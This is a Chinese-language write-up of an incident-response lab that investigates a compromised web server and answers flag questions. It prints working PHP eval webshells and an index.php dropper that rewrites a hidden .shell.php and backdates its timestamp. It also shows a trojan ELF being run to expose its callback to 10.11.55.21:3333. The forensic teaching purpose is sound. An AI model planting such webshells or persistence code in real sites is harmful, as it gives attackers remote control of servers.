

可以看出查出三个后缀为.php的文件，题目要求我们把木马的密码提交，就这三个文件很明显嘛，不是pass就是1咯，我们挨个看一下

```php
//1.php
<?php eval($_POST[1]);?>
```

这是最经典的一句话木马

#### 一句话木马

一句话木马是一种极为简短且隐蔽的恶意代码，通常嵌入到网站的 PHP 文件中，用于远程执行任意代码或命令。这种木马之所以被称为“一句话木马”，是因为它们通常只包含一行代码，但功能强大且危险。

一句话木马特征

- 简短：通常只有一行代码，易于隐藏和注入。
- 使用 eval 函数：利用 eval 函数执行传入的 PHP 代码。
- 通过 HTTP 参数传递代码：常见的方式是通过 GET 或 POST 请求参数传递要执行的代码。
- 基础验证：一些一句话木马会有简单的验证机制，比如检查一个参数的值是否符合某个条件。

可以看到1.php中木马的密码是1，直接提交flag就行了

```
flag{1}
```

我们再看看其他两个

```php
//.shell.php
<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>
```

```php
//index.php
<?php
include('config.php');
include(SYS_ROOT.INC.'common.php');
$path=$_SERVER['PATH_INFO'].($_SERVER['QUERY_STRING']?'?'.str_replace('?','',$_SERVER['QUERY_STRING']):'');
if(substr($path, 0,1)=='/'){
        $path=substr($path,1);
}
$path = Base::safeword($path);
$ctrl=isset($_GET['action'])?$_GET['action']:'run';
if(isset($_GET['createprocess']))
{
        Index::createhtml(isset($_GET['id'])?$_GET['id']:0,$_GET['cat'],$_GET['single']);
}else{
        Index::run($path);
}
$file = '/var/www/html/.shell.php';
$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';
file_put_contents($file, $code);
system('touch -m -d "2021-01-01 00:00:01" .shell.php');
usleep(3000);
?>
```

这个是关于不死马的代码，下面会具体分析

##### 问题2:服务器疑似存在不死马，请找到不死马的密码提交

#### 什么是不死马

不死马（Persistence Backdoor）是一种能够在系统中保持长期存在并持续运行的恶意软件，即使系统重启或某些安全措施生效后，它依然能够恢复运行。不死马通常会通过修改系统关键配置、添加定时任务、劫持系统进程等手段来实现持久化。

简单来说；

不死马是一种具有持久性的后门程序，它被设计用来在受感染的系统上长期驻留并保持活跃。其目的是确保攻击者对系统的访问不会因为系统重启或其他干预措施而中断。

不死马特征

- 持久性：


自启动：通过修改系统启动项、服务、计划任务等方式实现自启动。

文件隐藏：使用技术手段隐藏自身文件，避免被发现和删除。

多重存在：可能在多个位置部署副本，增强存活能力。

- 隐蔽性：

低调运行：以低优先级运行，不占用过多系统资源，减少被注意的可能。

多态性：定期更改自身代码或行为模式，规避签名检测。

日志清除：清除自身操作痕迹，减少被追踪的可能。

- 多样化的保持机制：

启动项：在 Windows 中，可以修改注册表中的启动项，在 Linux 中，可以修改 rc.local 或 crontab。
服务劫持：创建或劫持合法的系统服务。
计划任务：在系统计划任务中添加恶意任务。

因为我们刚刚找到了三个木马，所以我们继续看别的两个木马

```php
//.shell.php
<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>
```

```php
//index.php
<?php
include('config.php');
include(SYS_ROOT.INC.'common.php');
$path=$_SERVER['PATH_INFO'].($_SERVER['QUERY_STRING']?'?'.str_replace('?','',$_SERVER['QUERY_STRING']):'');
if(substr($path, 0,1)=='/'){
        $path=substr($path,1);
}
$path = Base::safeword($path);
$ctrl=isset($_GET['action'])?$_GET['action']:'run';
if(isset($_GET['createprocess']))
{
        Index::createhtml(isset($_GET['id'])?$_GET['id']:0,$_GET['cat'],$_GET['single']);
}else{
        Index::run($path);
}
$file = '/var/www/html/.shell.php';
$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';
file_put_contents($file, $code);
system('touch -m -d "2021-01-01 00:00:01" .shell.php');
usleep(3000);
?>
```

这里可以看到index.php中在`/var/www/html/` 目录下创建一个名为 `.shell.php` 的后门文件，并伪造其时间戳以试图隐藏其存在。该后门文件包含恶意代码，通过 `md5` 哈希验证密码后，执行传入的命令。这种后门文件可以被攻击者用来远程执行任意命令，从而完全控制服务器。

代码解释:

- 定义后门文件路径：

$file = '/var/www/html/.shell.php';

$file 变量定义了后门文件的存放路径 /var/www/html/.shell.php。

- 定义后门代码：

$code =` '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';`

$code 变量定义了后门代码。

该代码通过 md5 哈希验证 POST 请求中的密码（pass 参数），如果匹配，则执行 POST 请求中的命令（cmd 参数）。

- 写入后门文件：

file_put_contents($file, $code);

使用 file_put_contents 函数将后门代码写入到 $file 指定的文件路径中，即创建或覆盖 .shell.php 文件。

- 伪造文件时间戳：

system('touch -m -d "2021-01-01 00:00:01" .shell.php');

使用 system 函数执行 touch 命令，修改 .shell.php 文件的修改时间为 2021-01-01 00:00:01，以伪造文件的修改时间，试图隐藏其创建和修改痕迹。

- 微小延时：

usleep(3000);

使用 usleep 函数增加 3000 微秒（3 毫秒）的延时，虽然这个延时很短，但可能用于调节执行的节奏，以掩盖其操作痕迹。


所以这一套下来基本就是可以确认.shell.php文件就是由这个文件生成的，并且每隔usleep(3000)就生成一个新文件，所以达到了不死马的条件；

那既然我们不死马知道是谁了，并且也知道了是由谁生成不死马，那密码肯定就是那串MD5；那我们拿去解密一下就可以拿到flag了



##### 问题3:不死马是通过哪个文件生成的，请提交文件名

上面就可以看到了不死马是在index.php中进行创建生成的，直接交文件名就行

##### 问题4：黑客留下了木马文件，请找出黑客的服务器ip提交

我第一个去看了登录日志看看是否有创建用户或者跟用户有关的操作


但是我们这里搜查了两个都没得回显，然后我去看了apache的日志文件，猜测会用POST的方法去上传木马文件

```
cat access.log.1 | grep -a "POST"
```

也没啥收获

我们只能返回刚刚的目录检查一下可疑文件可以看到有一个`‘shell(1).elf’`

首先我们对这个文件进行提权，使所有用户都能无限制的访问此文件

```
root@ip-10-0-10-11:/var/www/html# chmod 777 'shell(1).elf'
```

然后我们运行，让他产生外联行为

```
root@ip-10-0-10-11:/var/www/html# ./'shell(1).elf'
```

但是这个时候我们的终端是会卡住的，需要另外起一个终端并运行

```
netstat -antlp | more
```

#### netstat 命令

netstat 是一个网络工具，用于显示网络连接、路由表、接口统计信息、伪装连接和多播成员信息。

选项和参数

-a：显示所有连接中的端口，包括监听和非监听。
-n：以数字形式显示地址和端口号，而不是将其解析为主机名或服务名。
-t：显示 TCP 连接。
-l：显示监听状态的套接字。
-p：显示使用每个套接字的程序。



字段解释

- Proto：协议（Protocol）


显示协议类型，常见的有 tcp 和 udp。

- Recv-Q：接收队列（Receive Queue）

显示接收队列的字节数。接收队列中的字节数是应用程序还未处理的接收数据。

- Send-Q：发送队列（Send Queue）

显示发送队列的字节数。发送队列中的字节数是已经被应用程序发送，但还未被远程主机接收的字节数。

- Local Address：本地地址

显示本地端的 IP 地址和端口号。例如：0.0.0.0:80 表示本地所有 IP 地址上的 80 端口。

- Foreign Address：远程地址

显示远程端的 IP 地址和端口号。例如：192.168.1.1:12345 表示远程 IP 为 192.168.1.1 的 12345 端口。

- State：状态

显示连接的状态。常见状态有：

LISTEN：正在监听连接。

ESTABLISHED：已建立连接。

CLOSE_WAIT：等待关闭连接。

TIME_WAIT：等待足够的时间以确保远程主机收到关闭请求。

- PID/Program name：进程 ID 和程序名

显示使用该连接的进程的进程 ID 和程序名。例如：1234/nginx 表示进程 ID 为 1234 的 nginx 程序。

然后我们找到.shell.elf文件的那一行就可以看到我们想要的的信息了

```
flag{10.11.55.21}
```

##### 问题5黑客留下了木马文件，请找出黑客服务器开启的监端口提交

#### 什么是监听端口号？

监听端口号（Listening Port）是网络通信中用于等待和接收传入连接请求的端口号。服务器或服务在特定端口上监听，以便与客户端建立连接。这种机制确保了网络应用程序能够接收和处理来自其他网络设备的请求。

基本概念

端口号：计算机网络中的端口号是用于标识特定应用程序或进程的逻辑端点。端口号的范围是0到65535，其中0到1023为系统保留端口，一般用于知名服务。
监听（Listening）：当一个应用程序或服务在某个端口上“监听”时，它在等待并准备接受来自该端口的连接请求。

从上面的图里面可以看到是3333端口，直接提交就行了

```
flag{3333}
```

### 工具排查

由于我们上面的都是自己手动排查，相对来说比较繁琐效率也低，这时候我们可以用工具进行排查，例如河马和d盾，我们直接把文件下载下来然后放d盾或者相关的web查杀工具里进行扫描查看就可以了，这里简单高效

相关命令

下载命令:tar -czvf 目录名字.tar.gz ./

- `tar`: Tape Archive 的缩写，是一个在 Unix 和类 Unix 系统中用于文件归档的工具。它可以将多个文件和目录打包成一个单一的归档文件。
- `-c`: 选项表示创建一个新的归档文件（create）。
- `-z`: 选项表示通过 `gzip` 来压缩归档文件。这样可以使生成的归档文件体积更小。
- `-v`: 选项表示详细模式（verbose）。在处理文件的过程中，会将每个被归档的文件名显示在终端上，让用户了解正在处理哪些文件。
- `-f html.tar.gz`: 选项中的 `-f` 用于指定输出归档文件的名称。在这个例子中，生成的压缩归档文件将被命名为 `html.tar.gz`。
- `./`: 这是指定要归档的文件或目录路径。在这个例子中，`./` 表示归档当前目录下的所有文件和目录。

以入侵排查为例，我们扫描出来的结果就是

id      级别  大小       CRC        修改时间             文件 (说明)

------------------------------------------------------------------------------------------------------------

 00001   4     88         70B2B130   21-01-01 08:00:01    \.shell.php    『Eval后门 {参数:$_POST[cmd]}』 _

00002   4     24         F46D132A   23-08-03 10:15:23    \1.php         『Eval后门 {参数:$_POST[1]}』

00003   1     655360     A3580725   23-08-03 10:45:11    \html\1.tar         『可疑文件』 

00004   1     722        17D041A4   23-08-03 10:40:18    \html\index.php     『可疑文件』
